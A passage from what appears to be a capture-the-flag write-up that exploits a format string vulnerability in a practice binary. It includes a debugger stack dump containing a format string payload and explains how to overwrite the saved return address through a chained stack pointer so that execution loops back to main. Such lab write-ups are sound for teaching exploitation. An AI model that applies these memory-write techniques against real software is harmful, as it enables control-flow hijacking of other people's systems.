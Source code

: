 ### How to return to main
Here is a snapshot of the stack right before the second `printf`:
```replace with pic
───────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────
 ► 0x7fc20fd73c90 <printf>       endbr64 
   0x7fc20fd73c94 <printf+4>     sub    rsp, 0xd8                       RSP => 0x7ffd007b5320 (0x7ffd007b53f8 - 0xd8)
   0x7fc20fd73c9b <printf+11>    mov    r10, rdi                        R10 => 0x5629cd981060 (buf) ◂— '%21492c%c%c%c%c%hn%24c%41$hhn\n'
   0x7fc20fd73c9e <printf+14>    mov    qword ptr [rsp + 0x28], rsi     [0x7ffd007b5348] <= 0x5629cd981060 (buf) ◂— '%21492c%c%c%c%c%hn%24c%41$hhn\n'
   0x7fc20fd73ca3 <printf+19>    mov    qword ptr [rsp + 0x30], rdx     [0x7ffd007b5350] <= 0x50
   0x7fc20fd73ca8 <printf+24>    mov    qword ptr [rsp + 0x38], rcx     [0x7ffd007b5358] <= 0x7fc20fe201f2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */                                                                                   
   0x7fc20fd73cad <printf+29>    mov    qword ptr [rsp + 0x40], r8      [0x7ffd007b5360] <= 0x15
   0x7fc20fd73cb2 <printf+34>    mov    qword ptr [rsp + 0x48], r9      [0x7ffd007b5368] <= 0xf
   0x7fc20fd73cb7 <printf+39>    test   al, al                          0 & 0     EFLAGS => 0x246 [ cf PF af ZF sf IF df of ]                                                                                                         
   0x7fc20fd73cb9 <printf+41>  ✔ je     printf+98                   <printf+98>
    ↓
   0x7fc20fd73cf2 <printf+98>    mov    rax, qword ptr fs:[0x28]        RAX, [0x7fc20fd0f768] => 0xe1c2ed5f5937d700
─────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────
00:0000│ rsp 0x7ffd007b53f8 —▸ 0x5629cd97e4b1 (main+166) ◂— mov edi, 0
01:0008│-020 0x7ffd007b5400 —▸ 0x7ffd007b5518 —▸ 0x7ffd007b71c5 ◂— './attachment_patched'
02:0010│-018 0x7ffd007b5408 ◂— 0x1cd97e1a0
03:0018│-010 0x7ffd007b5410 ◂— 0xa702436257b5510
04:0020│-008 0x7ffd007b5418 ◂— 0xe1c2ed5f5937d700
05:0028│ rbp 0x7ffd007b5420 ◂— 0
06:0030│+008 0x7ffd007b5428 —▸ 0x7fc20fd36083 (__libc_start_main+243) ◂— mov edi, eax
07:0038│+010 0x7ffd007b5430 —▸ 0x7fc20ff72620 (_rtld_global_ro) ◂— 0x60c0d00000000
───────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────
```
In order to return back to main, we need to make changes on `rsp 0x7ffd007b53f8 —▸ 0x5629cd97e4b1 (main+166) ◂— mov edi, 0`. More specifically, we need to change the `rip` from being `0x5629cd97e4b1 (main+166)` which would proceed to `exit()` to being something like `0x5629cd97e410 (main+5)` or `0x5629cd97e47e (main+115)` which is before the `read` and `printf` function calls so that we can input format string payload again.


But there is a big problem, which is that our format string payload is not on the stack. So we cannot simply place a stack address (`rsp`) and modify its content with `%n`s.

First, what we need to do is to change an existing stack address currently stored on the stack, which is at the same time also pointing to another stack address. We then need to change the stack address it points to, to become the `rsp`. For example:
`0x7fff955c4048` is now pointing to `0x7fff955c61c5 ◂— './attachment_patched'`
```
00:0000│ rsp 0x7fff955c3f28 —▸ 0x558ad449b4b1 (main+166) ◂— mov edi, 0
01:0008│-020 0x7fff955c3f30 —▸ 0x7fff955c4048 —▸ 0x7fff955c61c5 ◂— './attachment_patched'
```
We need to modify it via `0x7fff955c4048` which is also a stack address, to become:
```
00:0000│ rsp 0x7fff955c3f28 —▸ 0x558ad449b4b1 (main+166) ◂— mov edi, 0
01:0008│-020 0x7fff955c3f30 —▸ 0x7fff955c4048 —▸ 0x7fff955c3f28 —▸ 0x558ad449b4b1 (main+166) ◂— mov edi, 0
```
